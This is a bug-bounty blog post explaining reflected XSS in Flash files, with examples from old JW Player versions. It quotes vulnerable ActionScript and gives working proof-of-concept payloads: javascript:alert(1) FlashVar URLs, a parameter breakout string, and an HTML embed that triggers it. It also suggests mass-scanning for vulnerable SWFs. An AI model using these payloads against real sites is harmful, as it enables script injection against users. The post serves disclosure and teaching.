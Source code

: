 ```yaml
---
layout: post
title: Fun with Flash
---
```


## Intro
In Frans Rosen’s [talk on bug bounties](https://www.youtube.com/watch?v=KDo68Laayh8), he recommends searching for flash files, since a lot of them are vulnerable.  This got me interested in reading up on Flash files.

## The Tools  
- https://www.owasp.org/index.php/Testing_for_Cross_site_flashing_(OWASP-DV-004)
- To decompile Flash into Actionscript, use [JPEXS](https://www.free-decompiler.com/flash/download/).
- Adobe also made an app called [SWF Investigator](http://labs.adobe.com/technologies/swfinvestigator/).  In one of the tabs, it lists out all the vulnerable functions in the file.

## What’s wrong with Flash?
There are a lot of unsafe functions in Actionscript:

{% highlight actionscript %}
loadVariables()
loadMovie()
getURL()
loadMovie()
loadMovieNum()
FScrollPane.loadScrollContent()
LoadVars.load 
LoadVars.send 
XML.load ( 'url' )
LoadVars.load ( 'url' ) 
Sound.loadSound( 'url' , isStreaming ); 
NetStream.play( 'url' );
flash.external.ExternalInterface.call(_root.callback)
HtmlText
{% endhighlight  %}

The other issue is that you can add parameters (Flashvars) to the URL.  Combine these two issues and you can create reflected XSS attacks like this: https://mysite.com/player.swf?callback=javascript:alert(1).  

## Example: XSS in JW Player v3.16 and v4.3
I came across a copy of JW Player 3.16 and found an XSS vulnerability.  Version 5 also had a few XSS vulns, which you can read about [here](https://nealpoole.com/blog/2013/04/unpatched-reflected-xss-in-jw-player-5/) and [here](https://packetstormsecurity.com/files/113332/JW-Player-5.9-Cross-Site-Scripting-Content-Spoofing.html).  They weren’t interested in doing hotfixes for old versions, but they are fixed in the current JWPlayer 7.8.

### v3.16
Anyways, for v3.16, you can find the source code here:
https://github.com/psych0d0g/kplaylist-ng/tree/master/mediaplayer-3-16

In ```ConfigManager.as```, we find these lines:

{% highlight actionscript %}
    public function goTo(obj,itm) {
        getURL(obj.ref.config['aboutlnk'],'_blank');
    };
{% endhighlight %}

The ```aboutlnk``` is a FlashVar.  getURL is an unsafe function that will run javascript.  To get this to work you need to paste ```http://localhost/mediaplayer.swf?aboutlnk=javascript:alert(1)``` , right click to get the context menu, and then click the “About” option.  This works in Firefox v50.

### v4.3
I found a copy of [version v4.3](https://web.archive.org/web/20121226095419/http://developer.longtailvideo.com/trac/changeset/HEAD/tags/mediaplayer-4.3?old_path=%2F&format=zip) in the Internet Archive.  The vulnerability is still there.  

In ```Rightclick.as```:

{% highlight actionscript %}
	/** jump to the about page. **/
	private function aboutSetter(evt:ContextMenuEvent):void {
		navigateToURL(new URLRequest(view.config['aboutlink']),'_blank');
	};
{% endhighlight %}

In v4.3, they rewrote it in ActionScript 3.  So they use ```navigateToURL``` instead of ```getURL```, but it's still not a safe function to pass FlashVars to.  The FlashVar variable name also changed from ```aboutlnk``` to ```actionlink```.

This URL works in Firefox v50:```http://localhost/mediaplayer.swf?aboutlink=javascript:alert(1)```

### v5.1

Out of curiousity, I checked [v5.1](https://web.archive.org/web/20110923000742/http://developer.longtailvideo.com/trac/changeset/1965/tags/mediaplayer-5.1.910?old_path=%2F&format=zip) and they finally fixed it by hardcoding the value.  

In ```Rightclick.as```:

{% highlight actionscript %}
/** jump to the about page. **/
		protected function aboutHandler(evt:ContextMenuEvent):void {
			navigateToURL(new URLRequest('http://www.longtailvideo.com/players/jw-flv-player'), '_blank');
		}
{% endhighlight %}

I contacted them about this, and asked if they were going to issue a patch or send out a bulletin.  They replied they didn't support old versions.


## Almost, but not quite
In this code, from ```CallbackView.as```, we see another example of how we can use FlashVars to make the Flash file run javascript:

{% highlight actionscript %}
/** sending the current file,title,id,state,timestamp to callback **/
    private function sendVars(stt:String,dur:Number,cpl:Boolean) {
        clearInterval(playSentInt);
        if(config['callback'] == "urchin" || config['callback'] == "analytics") {
            var fil = feeder.feed[currentItem]["file"];
            var fcn = "javascript:pageTracker._trackPageview";
            if(config['callback'] == "urchin") {
                fcn = "javascript:urchinTracker";
            }
            if(fil.indexOf('http') != undefined) {
                fil = fil.substring(fil.indexOf('/',7)+1);
            }
            if(stt == "start") {
                getURL(fcn+"('/start_stream/"+fil+"');");
            } else if (stt == "stop" && cpl == true) {
                getURL(fcn+"('/end_stream/"+fil+"');");
            }
        } else {
            varsObject.file = feeder.feed[currentItem]["file"];
            varsObject.title = feeder.feed[currentItem]["title"];
            varsObject.id = feeder.feed[currentItem]["id"];
            varsObject.state = stt;
            varsObject.duration = dur;
            varsObject.sendAndLoad(config["callback"],varsObject,"POST");
        }
    };
{% endhighlight %}

Using the “callback” and “file” FlashVars, we can get the line 

```
getURL(fcn+"('/end_stream/"+fil+"');");
``` 
to execute.  


If we use ?file=video.flv&callback=urchin, it would fire off 
```
javascript:urchinTracker(‘end_stream/video.flv’);
```
but that would be pretty boring.  


By changing the “file” parameter, however, we can get it to execute custom Javascript.  

Example: 
```
file=video');alert(1);void('.flv. 
```

This would cause the browser to execute 
```
javascript:urchinTracker(‘end_stream/video’);alert(1):void(‘.flv’);
```

Unfortunately, this can’t be used for a reflected XSS attack, since the function “urchinTracker” isn’t there if you just pull up the swf file url.  The only way to exploit this would be if a page embedded the the file and also let you specify the flashvars in the url.

As an example, try putting the following in a webpage.  It will automatically play, stop, and pop an alert box.  It works in Firefox, Chrome, and Safari.

```html
function urchinTracker(){
}
 <object style="height:360px;width:640px;" data="mediaplayer.swf" type="application/x-shockwave-flash" allowscriptaccess="always" flashvars="file=video');alert(1);void('.flv&enablejs=true&callback=urchin&autostart=true" id="jstest" ></object> 
```

## Automate it
As with many things in security, finding these files and exploiting them can be tedious if you have to do it manually.  A better approach would be to write a script to scrape Google for the Flash files, download them, decompile them, and grep the unsafe function names.
